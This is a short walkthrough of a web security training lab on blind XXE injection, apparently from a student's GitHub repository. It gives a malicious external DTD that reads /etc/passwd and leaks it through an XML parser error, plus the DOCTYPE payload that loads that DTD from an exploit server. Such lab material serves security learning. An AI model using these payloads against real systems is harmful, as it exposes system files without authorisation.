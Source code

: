 # Lab: Exploiting blind XXE to retrieve data via error messages #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/0b688adc-6de5-4ff9-be0e-fabb8bb3bb7a)

Click "Go to exploit server" and save the following malicious DTD file on your server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
````

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/05190317-97e8-404a-8ec0-4ebb8d34032b)

> Click "View exploit" and take a note of the URL for your malicious DTD.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/1c8d583c-64ec-4cc1-997e-614e1aa97a55)

> Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

> We have modified the request

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/559fa5aa-2961-4ee8-b269-05728dd5b7d3)

> So we can see the response the content of /etc/passwd

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ad5960dd-c421-48e4-964e-204db8a211f0)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/3bf9579c-4b2d-4fe8-acb8-35c1b341777d)


